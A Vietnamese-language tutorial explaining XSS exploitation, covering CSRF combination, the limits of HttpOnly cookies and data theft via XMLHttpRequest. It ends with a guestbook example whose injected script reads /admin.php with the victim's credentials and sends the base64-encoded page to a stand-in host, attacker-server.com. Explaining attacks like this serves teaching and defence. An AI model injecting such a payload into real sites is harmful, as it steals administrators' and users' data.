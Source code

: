 #Giới thiệu về Khai thác XSS (Cross-Site Scripting)

Khai thác lỗ hổng Cross-Site Scripting (XSS) cho phép kẻ tấn công tiêm mã JavaScript vào trang web, từ đó có thể thực hiện các yêu cầu HTTP, nhận phản hồi và đánh cắp dữ liệu gửi tới một máy chủ do chúng kiểm soát. Thông qua XSS, kẻ tấn công có thể gửi các yêu cầu giữa các nguồn khác nhau (cross-origin requests) và kết hợp với kỹ thuật CSRF (Cross-Site Request Forgery) để khai thác toàn bộ mạng nội bộ của nạn nhân.

Một trong những lý do XSS và CSRF trở thành mối đe dọa mạnh mẽ là do trình duyệt web thường áp dụng chính sách `SameSite` cho cookie. Chính sách này giới hạn khả năng khai thác CSRF bằng cách ngăn cản các yêu cầu từ các nguồn khác mà không có sự cho phép rõ ràng từ máy chủ. Tuy nhiên, việc kết hợp XSS và CSRF lại tạo ra một kỹ thuật khai thác rất nguy hiểm.

### Cờ Cookie `HTTPOnly`

Mặc dù việc đánh cắp cookie session của nạn nhân là một kỹ thuật phổ biến trong các cuộc tấn công XSS, nhưng việc này có thể bị ngăn chặn nếu sử dụng cờ `HttpOnly` trên cookie session. Cờ này ngăn JavaScript truy cập vào cookie, nghĩa là nếu kẻ tấn công cố gắng truy cập vào `document.cookie`, cookie có cờ `HttpOnly` sẽ không hiển thị.

Tuy nhiên, việc ngăn chặn quyền truy cập vào cookie không làm giảm mức độ nguy hiểm của XSS. Điều này bởi vì một khi XSS được khai thác, kẻ tấn công có thể thực thi mã JavaScript tùy ý trong trình duyệt của nạn nhân và thực hiện các hành động thay mặt cho nạn nhân mà không cần phải biết giá trị của cookie session.

### Lấy Dữ Liệu với XSS

Khi mã XSS được thực thi trong trình duyệt của nạn nhân, nó có thể truy cập bất kỳ dữ liệu nào từ góc độ của nạn nhân. Nếu nạn nhân có quyền quản trị trên ứng dụng web, kẻ tấn công có thể khai thác lỗ hổng XSS để lấy quyền truy cập quản trị và đánh cắp dữ liệu từ ứng dụng web.

Để lấy dữ liệu từ ứng dụng web và gửi chúng đến máy chủ tấn công, kẻ tấn công có thể sử dụng đối tượng `XMLHttpRequest` để thực hiện các yêu cầu HTTP và tương tác với phản hồi từ máy chủ.

### Ví Dụ Cụ Thể: Tấn Công XSS trong Ứng Dụng Web

Giả sử chúng ta có một ứng dụng web đơn giản, như ứng dụng "guestbook", nơi người dùng có thể đăng bình luận. Nếu ứng dụng này có lỗ hổng XSS, kẻ tấn công có thể tiêm mã JavaScript vào một bình luận.

#### Mã XSS Tiêm Vào:

```javascript
<script>
    // Tạo yêu cầu GET đến /admin.php để lấy thông tin trang quản trị
    var xhr = new XMLHttpRequest();
    xhr.open('GET', '/admin.php', false);  // Gửi yêu cầu GET đến trang quản trị
    xhr.withCredentials = true;  // Đảm bảo cookie sẽ được gửi kèm theo yêu cầu
    xhr.send();

    // Mã hóa dữ liệu phản hồi thành base64 và gửi đến máy chủ tấn công
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://attacker-server.com/exfil?r=" + btoa(xhr.responseText), false);
    exfil.send();
</script>
```
